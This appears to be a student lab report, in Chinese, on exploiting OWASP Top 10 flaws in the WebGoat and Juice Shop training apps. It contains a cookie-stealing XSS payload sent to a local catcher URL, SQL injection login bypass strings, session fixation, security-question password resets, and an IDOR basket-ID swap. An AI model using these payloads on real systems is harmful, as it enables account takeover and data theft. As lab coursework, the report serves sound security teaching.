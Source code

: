 # Web 应用漏洞攻防 
## 实验目的 
- 了解常见 Web 漏洞训练平台；
- 了解 常见 Web 漏洞的基本原理；
- 掌握 OWASP Top 10 及常见 Web 高危漏洞的漏洞检测、漏洞利用和漏洞修复方法；
  
## 实验环境
- WebGoat
- Juice Shop
## 实验要求 

- 每个实验环境完成不少于 5 种不同漏洞类型的漏洞利用练习
- 
## 实验过程 
### 一、webgoat环境下的漏洞攻防 ###
### WebGoat环境搭建 ###
- 安装docker-compose
  `apt update&&apt install docker-compose`
- 将老师写好的文件git clone到该目录下
- `git clone https://github.com/c4pr1c3/ctf-games.git`
- 安装docker-compose
  `docker-compose up-d`
  ![](imgs/1.png)
  ![](imgs/2.png)
  ![](imgs/3.png)
  ![](imgs/4.png)

- 打开浏览器输入网址127.0.0.1/WebGoat/attack，输入用户名、密码登录Webgoat页面来验证安装是否成功
  ![](imgs/7.png)

-  浏览器添加插件ProxySwitchyOmega，设置proxy
  ![](imgs/8.png)
- 设置burpsuite的intercept is on，即相当于设置断点，方便调试、转发
  ![](imgs/9.png)

### 一、未验证的用户输入漏洞 ###
- 浏览器添加插件ProxySwitchyOmega，设置proxy
- burpsuite设置为intercept is on,回到我们将要提交数据的界面，点击submit,可以看到burpsuite拦截到了我们提交的信息。
  ![](imgs/10.png)
- 在burpsuite中对拦截到的信息的字段进行修改，并且点击forward将其提交上去，成功实现了绕过html字段的限制。
  ![](imgs/11.png)
  ![](imgs/12.png)

### 2.XSS跨站脚本攻击 ###
####  实验目的：
 - 通过xss攻击获取受害者的cookie
 - 把cookie以参数的形式发送到目标服务器中

- 输入以下代码弹出页面cookie值
  <script>window.open('http://127.0.0.1:8087/WebGoat/ catcher?PROPERTY=yes&msg='+document.cookie)</script>
  ![](imgs/13.png)
- 此时弹出了一个网页，其URL为
http://127.0.0.1:8087/WebGoat/catcherPROPERTY=yes&msg=JSESSIONID=4DC9F3FCD8CD3215786AE469A89699F9
此url中msg参数和之前弹窗弹出来的cookie相同，实验成功
  ![](imgs/14.png)
  ![](imgs/15.png)

### 3.脆弱访问控制 ###
- 原理：普遍身份认证流程中常见的缺陷模式包括：简单易猜解的用户名和用户⼝令；由于第三方认证凭据泄漏导致的撞库攻击；存在缺陷的身份管理功能，例如口令修改、忘记口令 功能设计不当会导致所有用户口令可以被任意修改，进而被任意身份仿冒。
  ![](imgs/16.png)
  ![](imgs/18.png)
- 输入用户名admin，出现密保，挨着输入各种颜色，直至出现如图提示后，表示攻击成功得到密码。
  ![](imgs/19.png)

### 4.脆弱认证和会话管理 ###
  **原理**：常见的 Web 应用会话管理功能实现是依赖于客户端的 Cookie 和服务端的 Session 机制的。客户端 Cookie 中通常会记录服务端代码设置的一个随机长字符串作为 Session ID，服务端代码使用客户端发送来的 Cookie 中这个 Session ID 在服务端的 Session 列表中找到匹配 Session 对象，进而就可以知道用户是谁。这里的 Session ID 我们一般称为会话令牌。
- 在邮件正文的链接中中加入Session ID。
  ![](imgs/21.png)
- 点击提交后我是收件人Jane。点击弹出页面中的链接“Goat Hills Financial”。
  ![](imgs/22.png)
- 以用户名Jane，密码tarzan登陆。
  ![](imgs/23.png)
- 在浏览网页时，看到浏览器网址中我们的SID是“NOVALIDSESSION” 。
  ![](imgs/25.png)
- 将SID修改为最开始的邮件中填入的“WHATEVER”，实验成功 。
  ![](imgs/26.png)

### 5.注入缺陷 ###
- 初始登陆界面，需要输入PASSWORD
  ![](imgs/27.png)
- 修改password内容为 ' or '1'='1。
  ![](imgs/28.png)
- 实现绕过密码登陆。
  ![](imgs/29.png)
  ![](imgs/30.png)

### 二、Juice Shop环境下的漏洞攻防 ###
### Juice shop环境搭建 ###
- 安装`docker-compose up -d`
  ![](imgs/31.png)
- 进入JuiceShop后查找计分板
  ![](imgs/33.png)
  ![](imgs/34.png)
- 访问对应网址，寻找计分板成功。
  ![](imgs/35.png)

### sql注入缺陷 ###
- 在用户名部分输入'or 1=1--，密码随意填写。
  ![](imgs/37.png)
- 成功实现绕过密码登陆
  ![](imgs/38.png)

### 脆弱认证 ###
- 实验方法：通过忘记密码，更改用户密码。
- 输入Bjoern的owasp账户，密保问题是问最喜欢的宠物。
  ![](imgs/39.png)
- 通过互联网信息搜索，发现他有一只猫叫'Zaya'，尝试填入答案，并进行密码重置，成功实现密码重置。
  ![](imgs/40.png)

### 敏感数据曝光/遗忘信息 ###
- 在/#/about 页面中通过开发者工具找到【使用条款】的对应href=“/ftp/legal.md”。
- 根据左下角的路径访问ftp链接。
- 点开文件可以看到机密文件内容，实现了获取。
  ![](imgs/41.png)
  ![](imgs/42.png)
  ![](imgs/43.png)
- 点开文件可以看到机密文件内容，实现了获取。
  ![](imgs/44.png)
 

### 脆弱访问控制 ###
- 实验目的：查看另一个用户的购物车。
- burpsuite设置为intercept is on，然后点击我的购物车，在burpsuite中可以看到我们抓到的包,第一行为GET /rest/basket/5 HTTP/1.1。
  ![](imgs/46.png)
- 将basket后的5改为6，点击forward
  ![](imgs/47.png)
- 实验成功
  ![](imgs/48.png)

# 参考资料
[hyf作业](https://github.com/CUCCS/2019-NS-Public-huangyifei416/tree/chap0x07)
[DXY作业](https://github.com/CUCCS/2019-NS-Public-DXY0411/tree/ns_chap0x07)

